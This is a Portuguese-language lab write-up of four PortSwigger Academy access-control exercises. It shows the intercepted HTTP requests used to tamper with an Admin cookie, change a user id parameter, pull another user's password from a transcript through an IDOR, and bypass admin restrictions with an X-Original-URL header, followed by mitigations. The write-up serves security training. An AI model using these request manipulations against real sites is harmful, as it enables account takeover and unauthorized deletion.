

<div class="page"/>

# **Access control | Sonael de A. Angelos Neto**

  - ### **O que é Controle de Acesso?**

    **Controle de acesso** em aplicações é um mecanismo de segurança que determina quem tem permissão para acessar recursos específicos em uma aplicação. Ele pode incluir autenticação (verificação da identidade do usuário) e autorização (verificação se o usuário tem permissão para realizar determinadas ações). O controle de acesso pode ser baseado em regras de negócios específicas ou em políticas predefinidas, como papéis ou grupos de usuários.


  - ### **Como um atacante pode explorar falhas no controle de acesso?**

    Existem várias maneiras pelas quais um hacker pode explorar vulnerabilidades no controle de acesso:

    - **Ataques de força bruta:** O hacker pode tentar adivinhar várias combinações de nome de usuário e senha para acessar a conta de um usuário.

    - **Ataques de phishing:** criando um site falso ou enviar um e-mail que pareça ser de confiança para roubar informações de login de um usuário.

    - **Ataques de injeção:** injetando código malicioso em um aplicativo vulnerável para obter acesso não autorizado aos dados.

    - **Exploração de vulnerabilidades conhecidas:** usando ferramentas automatizadas para procurar e explorar vulnerabilidades conhecidas em um aplicativo ou sistema.

    - **Abuso de privilégios:** obtendo acesso a contas com privilégios elevados e usá-las para obter acesso não autorizado a recursos protegidos.

    - **Social engineering:** usando técnicas de engenharia social para obter informações confidenciais de usuários ou manipulá-los para conceder acesso não autorizado.

    É importante que os desenvolvedores de aplicativos e os administradores de sistemas estejam cientes dessas ameaças e tomem medidas para proteger seus aplicativos e sistemas contra elas.

---

  ## **Sumário:**

   Nesse documento, iremos explorar vulnerabilidades no `"Controle de Acesso"`, utilizando **4** laboratórios diferentes da [Portswigger Academy](https://portswigger.net/web-security/all-labs), sendo eles:

  - #### ***User role controlled by request parameter.***
  - #### ***User ID controlled by request parameter.***
  - #### ***Insecure direct object references.***
  - #### ***<a href="#1">URL-based access control can be circumvented.</a>***

---

<div class="page"/>

### **Ferramentas utilizadas:**

- #### [Burp Suite](https://portswigger.net/burp) :
    - Utilizaremos o `Burp Suite` para interceptar as requisições e analisar o que está sendo enviado para o back-end.

---

## **• User role controlled by request parameter.**

O objetivo desse laboratório é explorar uma vulnerabilidade no controle de acesso que permite que um usuário comum acesse uma página de administrador, fazendo assim uma escalação vertical de privilégios.

Ao logar com as credenciais `wiener:peter` e tentar acessar o caminho `/admin`, o site nos retorna um erro pois o usuário não tem permissão para acessar essa página.



Então, através do **Intercpt** do  `Burp Suite`, iremos interceptar a requisição que feita ao acessar a pagina `/admin` e ver o que está sendo enviado para o back-end.

```http

GET /admin HTTP/1.1
Host: 0a8800e4030a2cf2c05059f500dd0038.web-security-academy.net
Cookie: session=JWOrFphF2U7LViG0pHtqOfS1Xq1r4zMo; Admin=false
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

<div class="page"/>

Na requisição interceptada, podemos ver que existe um cookie chamado `Admin` com o valor `false`, então, iremos alterar o valor para `true` e deixar a requisição passar.

```http

GET /admin HTTP/1.1
Host: 0a8800e4030a2cf2c05059f500dd0038.web-security-academy.net
Cookie: session=JWOrFphF2U7LViG0pHtqOfS1Xq1r4zMo; Admin=true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

Dessa forma, conseguimos acessar a página de administrador, mesmo não sendo um usuário com permissão.



E para concluir o laboratório, temos que excluir o usuário `carlos` da lista de usuários, porém o cookie `Admin` não está mais presente na requisição, então, iremos interceptar a requisição e adicionar o cookie novamente.

```http


GET /admin/delete?username=carlos HTTP/1.1
Host: 0a8800e4030a2cf2c05059f500dd0038.web-security-academy.net
Cookie: session=a2Uxp4KQl19EN6t5Gq7YSRuMNIBjWip8; Admin=true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a8800e4030a2cf2c05059f500dd0038.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

E assim, conseguimos concluir o laboratório.



---

## **• User ID controlled by request parameter.**

O objetivo desse laboratório é explorar uma vulnerabilidade no controle de acesso que permite que um usuário acesse a conta de outro usuário, fazendo assim uma escalação horizontal de privilégios.


Ao logar com as credenciais `wiener:peter` e  acessar o caminho `/my-account`, percebemos que a url possui um parâmetro chamado `id` com o valor `wiener`.



<div class="page"/>

Se alterarmos o valor do parâmetro para `carlos`, conseguimos acessar a conta do usuário `carlos`.



E para concluir o laboratório, bastar submeter a `API Key`do usuário `carlos`.



---

## **• User ID controlled by request parameter with no access control.**

O objetivo desse laboratório é, por meio de um `IDOR`*(Insecure direct object references)*, roubar as credenciais do usuário `carlos`.

Ao entrar no laboratório, temos uma pagina de **live chat** onde você pode conversar com outros usuários.



Na pagina de **live chat**, existe um botão chamado `View Transcript` que ao ser clicado, faz um download do histórico de conversas do usuário.



Ao clicar no botão, percebemos que o arquivo baixado possui apenas um número como seu nome e que ao clicar mais vezes no botão, o número do arquivo aumenta.

Porém, percebe-se também que o número do arquivo começa com o valor `2`, então, iremos alterar o valor do parâmetro `id` para `1` e fazer o download do arquivo.

Para isso, iremos interceptar a requisição através do `Burp Suite`.

```http

GET /download-transcript/1.txt HTTP/1.1
Host: 0aa9009b046cae72c0f4ae830093008d.web-security-academy.net
Cookie: session=sL1jCDaQR5CygCsTKM38T0OmxQpvNOLy
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0aa9009b046cae72c0f4ae830093008d.web-security-academy.net/chat
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
```

Com base na requisição acima percebemos que o caminho em que ele busca os arquivos é `/download-transcript/`, então basta solicitar o arquivo `1.txt` para que ele faça o download do arquivo.

E o conteúdo do arquivo é o seguinte:

``` txt

CONNECTED: -- Now chatting with Hal Pline --
You: Hi Hal, I think I've forgotten my password and need confirmation that I've got the right one
Hal Pline: Sure, no problem, you seem like a nice guy. Just tell me your password and I'll confirm whether it's correct or not.
You: Wow you're so nice, thanks. I've heard from other people that you can be a right ****
Hal Pline: Takes one to know one
You: Ok so my password is wn9y5k7iwyheruy50gdd. Is that right?
Hal Pline: Yes it is!
You: Ok thanks, bye!
Hal Pline: Do one!


```

No arquivo, podemos ver que o usuário `carlos` esqueceu sua senha e pediu para o `Hal Pline` confirmar se a senha que ele havia digitado `wn9y5k7iwyheruy50gdd` estava correta.

Agora basta logar com as credenciais `carlos:wn9y5k7iwyheruy50gdd` para concluir o laboratório.



---


## **<a id="1"> •URL-based access control can be circumvented.</a>**


O objetivo desse laboratório é explorar uma vulnerabilidade no controle de acesso que permite que um usuário comum acesse uma página de administrador e através disso excluir a conta de outro usuário.

Ao entrar no laboratório e tentar acessar a página de administrador, percebemos que o acesso é negado.



Então, vamos analisar a requisição que foi feita para acessar a página de administrador utilizando o `Burp Suite`.

```http

GET /admin HTTP/1.1
Host: 0a5b00d504870d6fc1c0e9b20012006d.web-security-academy.net
Cookie: session=JBfnGwhBosebLxYIgMa6Q8wxKGf87NQv
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

Porém, se alterarmos o valor da url para `/` e adicionarmos ao cabeçalho da requisição o parâmetro `X-Original-URL: /invalid` temos a seguinte resposta:

**Request** | **Response** 
:---------: | :------:
 |

Isso indica que o sistema de back-end está processando a URL do cabeçalho X-Original-URL.

<div class="page"/>

Então, vamos alterar o valor do parâmetro `X-Original-URL` para `/admin` e fazer a requisição.

**Request** | **Response** 
:---------: | :------:
 |

O acesso foi permitido e agora podemos acessar a página de administrador, mas para concluir o laboratório precisamos excluir a conta de outro usuário.

E para isso, vamos adicionar o parâmetro `X-Original-URL: /admin/delete` ao cabeçalho da requisição, alterar a url para `/?username=carlos` e enviar a requisição.

```http

GET /?username=carlos HTTP/1.1
Host: 0a5b00d504870d6fc1c0e9b20012006d.web-security-academy.net
Cookie: session=JBfnGwhBosebLxYIgMa6Q8wxKGf87NQv
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
X-Original-URL: /admin/delete
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```	

<div class="page"/>

Dessa forma conseguimos excluir a conta do usuário `carlos` e concluir o laboratório.



---

## **• Mitigação.**


***Existem várias formas de mitigar as vulnerabilidades no controle de acesso mencionadas anteriormente:***

- **Autenticação robusta**: Implementar medidas de autenticação robustas, como autenticação de dois fatores ou autenticação baseada em reconhecimento de biometria, para impedir ataques de força bruta e phishing.

- **Validação de entrada**: Validar e sanitizar todas as entradas de usuário para evitar ataques de injeção.

- **Atualização de segurança**: Manter os aplicativos e sistemas atualizados com as últimas correções de segurança para corrigir vulnerabilidades conhecidas.

- **Controle de privilégios**: Implementar mecanismos de controle de privilégios para garantir que os usuários somente tenham acesso aos recursos aos quais eles têm permissão.

- **Monitoramento de segurança**: Monitorar continuamente o sistema para detectar e responder rapidamente a qualquer atividade suspeita ou violações de segurança.

- **Treinamento de segurança**: Treinar os funcionários e usuários sobre as ameaças de segurança e como evitá-las, incluindo como identificar e lidar com tentativas de engenharia social.

- **Criptografia**: Utilizar criptografia para proteger informações sensíveis, como senhas e dados confidenciais.

- **Uso de ferramentas de segurança**: Utilizar ferramentas de segurança, como firewall, antivírus e soluções de detecção e resposta a incidentes, para proteger o sistema de ameaças externas.

---


## **• Dificuldades.**

*Nenhuma dificuldade relevante. =}*

---

<div class="page"/>

## **• Conclusão.**

Em conclusão, o **controle de acesso** é um componente fundamental da segurança de aplicações, pois determina quem tem permissão para acessar recursos específicos. No entanto, esses mecanismos de segurança podem ser vulneráveis a ataques cibernéticos, como ataques de força bruta, phishing e injeção de código. É importante que os desenvolvedores de aplicativos e administradores de sistemas estejam cientes dessas ameaças e tomem medidas para mitigá-las. Algumas medidas eficazes incluem autenticação robusta, validação de entrada, atualização de segurança, controle de privilégios, monitoramento de segurança, treinamento de segurança, criptografia e uso de ferramentas de segurança. A implementação dessas medidas ajudará a garantir que os aplicativos e sistemas sejam protegidos contra ameaças cibernéticas e que somente usuários autorizados tenham acesso aos recursos protegidos.

---

## **• Referências.**

- [EC-Council - What Is Broken Access Control Vulnerability?](https://www.eccouncil.org/cybersecurity-exchange/web-application-hacking/broken-access-control-vulnerability/)

- [Portswigger - Access control vulnerabilities and privilege escalation](https://portswigger.net/web-security/access-control)

- [ChatGPT](https://chat.openai.com/chat)


---

## **• Laboratórios.**

- [User role controlled by request parameter](https://portswigger.net/web-security/access-control/lab-user-role-controlled-by-request-parameter)

- [User ID controlled by request parameter](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter)

- [Insecure direct object references](https://portswigger.net/web-security/access-control/lab-insecure-direct-object-references)

- [URL-based access control can be circumvented](https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented)

